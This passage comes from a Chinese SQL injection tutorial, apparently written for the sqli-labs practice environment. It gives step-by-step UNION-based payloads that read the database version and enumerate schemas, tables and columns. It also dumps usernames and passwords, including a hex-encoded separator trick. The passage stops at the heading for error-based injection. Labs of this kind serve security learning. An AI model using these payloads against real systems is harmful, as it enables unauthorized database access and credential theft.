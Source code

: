 ##### 4、查询数据库信息

```sql
?id=-1' union select 1,version(),database()--+
```

##### 5、查询数据库

这里有两种选择，一种是查询当前数据库，然后查询当前数据库内的表、列、数据；一种是爆破出所有数据库名，再选择数据库去查询其中的表、列、数据。

5.1、查询当前数据库和其中表

```sql
?id=-1' union select 1,2,database() --+

?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

5.2、爆破所有数据库

```sql
?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+
```

##### 6、爆破数据库中的表

```
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+               #同上 5.1
```

##### 7、爆破表中的字段

```sql
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security'  and table_name='users' --+
```

##### 8、查询具体数据

```sql
?id=-1' union select 1,2,group_concat(username,password) from users --+
```

* 优化语句：添加区分语句，如添加_、：、@、空格等等

  ```sql
  ?id=-1' union select 1,2,group_concat(username,'_',password) from users --+
  ```

* 给结果换行，把换行符%0x<br》  经过hex编码后的0x3c62723e输入，SEPARATOR为拆分命令，可让每条结果都互相拆开

  ```sql
  ?id=-1' union select 1,2,(select group_concat(username,'@',password separator 0x3c62723e) from users)--+
  ```

#### 法二：报错注入

##### 1、注入点判断
